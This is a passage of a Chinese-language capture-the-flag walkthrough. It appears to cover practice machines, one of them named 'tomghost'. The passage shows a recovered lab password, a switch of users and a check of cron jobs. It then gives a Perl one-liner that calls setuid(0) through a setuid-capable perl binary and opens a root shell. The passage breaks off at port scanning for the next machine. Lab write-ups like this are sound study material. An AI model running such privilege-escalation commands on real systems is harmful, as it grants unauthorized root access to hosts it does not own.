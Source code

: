 得到password

```plain
WhyIsARavenLikeAWritingDesk?
```

su换一下用户

## 定时任务提权root

尝试sudo和suid提权发现没啥有用的，看一下定时任务

[![](assets/1706771526-02ad4677a6eabcd0953776bafea3b05f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222923-cc6afd46-beb2-1.png)

发现perl有set\_uid

[![](assets/1706771526-f4f128cce12c107d878b08837eb67a3f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222927-ceb48770-beb2-1.png)

[![](assets/1706771526-0a1a4b4030d44ca4e587fcfb10b36edd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129222931-d147d99c-beb2-1.png)

```plain
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

## tomghost

## 信息收集

mascan

[![](assets/1706771526-6b1b8775016330ac5ccd28b6adb268a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223011-e91024a8-beb2-1.png)
